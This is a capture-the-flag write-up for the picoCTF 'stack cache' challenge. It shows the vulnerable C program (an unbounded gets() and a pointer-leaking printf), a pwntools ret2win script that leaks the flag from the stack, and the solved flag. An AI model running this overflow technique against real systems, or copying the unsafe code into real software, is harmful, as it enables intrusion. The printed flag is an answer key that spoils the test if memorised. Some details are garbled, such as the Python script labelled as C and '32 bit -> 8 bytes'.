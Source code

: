 # stack cache
> Write-up author: vrescho
## DESCRIPTION:
Undefined behaviours are fun. It looks like Dr. Oswal allowed buffer overflows again. 
Analyse this program to identify how you can get to the flag. You can view source here. 
And connect with it using nc saturn.picoctf.net 62780
## HINT:
1. Maybe there is content left over from stack?
2. Try compiling it with gcc and clang-12 to see how the binaries differ
## STEPS:
1. Given a not stripped 32 bit binary file.

![image](https://user-images.githubusercontent.com/70703371/224532660-e0cbdbc3-c664-475a-b252-7a70c462c579.png)


2. Let's check the binary protections.

> VULN -> Partial RELRO, No PIE.

![image](https://user-images.githubusercontent.com/70703371/224532691-aa3cfd20-48ff-4f32-93b9-26543a44cf82.png)


3. Now check the source code.

> SOURCE

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 16
#define FLAGSIZE 64
#define INPSIZE 10

/*
This program is compiled statically with clang-12
without any optimisations.
*/

void win() {
  char buf[FLAGSIZE];
  char filler[BUFSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
}

void UnderConstruction() {
        // this function is under construction
        char consideration[BUFSIZE];
        char *demographic, *location, *identification, *session, *votes, *dependents;
	char *p,*q, *r;
	// *p = "Enter names";
	// *q = "Name 1";
	// *r = "Name 2";
        unsigned long *age;
	printf("User information : %p %p %p %p %p %p\n",demographic, location, identification, session, votes, dependents);
	printf("Names of user: %p %p %p\n", p,q,r);
        printf("Age of user: %p\n",age);
        fflush(stdout);
}

void vuln(){
   char buf[INPSIZE];
   printf("Give me a string that gets you the flag\n");
   gets(buf);
   printf("%s\n",buf);
   return;
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  printf("Bye!");
  return 0;
}

```

4. Based from it, we can control the **EIP** by overflow the buffer of var buf then return to the `win()` function, it's a simple ret2win concept then, but the problem is it doesn't cat or print out the flag text.
5. But, notice at the `UnderConstruction()` function, there's a pointer format string call, which we can utilize to leak the value from the stack memory.

> NOTES

```
Still need to return to the win() to trigger the flag written inside the flag.txt file stored in the stack memory (pointer)
```

6. So the payload we shall send is:

```
padding + win() + under() 
```

7. Let's craft the script then.

```c
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 14

p = flat([
    asm('nop') * padding,
    elf.sym['win'],
    elf.sym['UnderConstruction']
])

sh.sendline(p)

sh.interactive()

```

8. Create a file named flag.txt and store `AAAA..`'s inside it, then run the script locally to test our concept.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533323-65ed64c6-bfa4-45f9-a9b8-ccde9e2db826.png)


> 0x414141.. -> AAA.. -> successully leaked the flag value by calling the `UnderConstruction()`.

![image](https://user-images.githubusercontent.com/70703371/224533331-6af2c4b9-30b9-4769-aa61-972bd99d7829.png)


9. All good! Let's run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533391-9d61a71e-a563-4d25-8bd6-15f7832bbbf2.png)


> LEAKED -> seperate it manually to find the correct hex leaked | 32 bit -> 8 bytes.

```
04 00 7d
62 61 34 64
63 31 63 34
5f 59 72 30
6d 33 4d 5f
50 75 5f 4e
34 65 6c 43
7b 46 54 43
6f 63 69 70
```

10. Convert it to strings.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/224533590-097fd383-922f-4e63-8386-a18a15c01337.png)

> reverse it

![image](https://user-images.githubusercontent.com/70703371/224533631-f7a65208-c7a5-4d5f-9a4d-1332a92651e6.png)


11. Got the flag!

## FLAG

```
picoCTF{Cle4N_uP_M3m0rY_4c1cd4ab}
```




